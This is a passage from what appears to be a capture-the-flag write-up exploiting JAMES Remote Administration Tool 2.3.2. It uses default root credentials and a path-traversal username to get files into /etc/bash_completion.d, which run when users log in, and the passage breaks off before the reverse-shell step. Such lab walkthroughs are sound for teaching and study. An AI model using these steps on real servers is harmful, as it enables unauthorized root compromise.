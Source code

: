The question then becomes, how can I use this semi-arbitrary root write access
to my advantage? I can control the folder that’s written into, but not fully
the filename. This eliminates ideas like writing a public key into
`/root/.ssh/authorized_keys` or changing the `/etc/sudoers` or `/etc/passwd`
files.

The solution the script authors came up with is a good one. Bash completion
scripts provide custom tab completion for various commands. For example, when
I type `git stat[tab]`, it auto completes `git status` based on a git bash
completion script that runs each time a session starts on my host. In fact, a
few weeks ago I was looking at writing custom bash completion scripts, and
it’s not hard. I tweeted a really nice overwview post:

> Creating some scripts to manage things, and wanted to add tab complete for
> the options. It was super easy. This article was a really good
> overview:<https://t.co/6LHD16wT5l>
>
> — 0xdf (@0xdf_) [April 12,
> 2020](https://twitter.com/0xdf_/status/1249390368640192515?ref_src=twsrc%5Etfw)

Anyway, by writing to `/etc/bash_completion.d`, when any user logs in, that
user will run each file in there as a `bash` script.

#### Script Review

Opening the script, I see exactly the process as described above:

[![James Exploit Notes](https://0xdfimages.gitlab.io/img/james-
exploit.png)_Click for full size
image_](https://0xdfimages.gitlab.io/img/james-exploit.png)

#### Manual Exploitation

Seeing what the script does, I’ll try this manually with `nc` and `telnet`.
First, create a user:

    
    
    root@kali# nc 10.10.10.51 4555
    JAMES Remote Administration Tool 2.3.2
    Please enter your login and password
    Login id:
    root
    Password:
    root
    Welcome root. HELP for a list of commands
    adduser ../../../../../../../../etc/bash_completion.d 0xdf0xdf
    User ../../../../../../../../etc/bash_completion.d added
    quit
    Bye
    

Now, I’ll send that user an email with a reverse shell, connecting to SMTP on
25:

    
    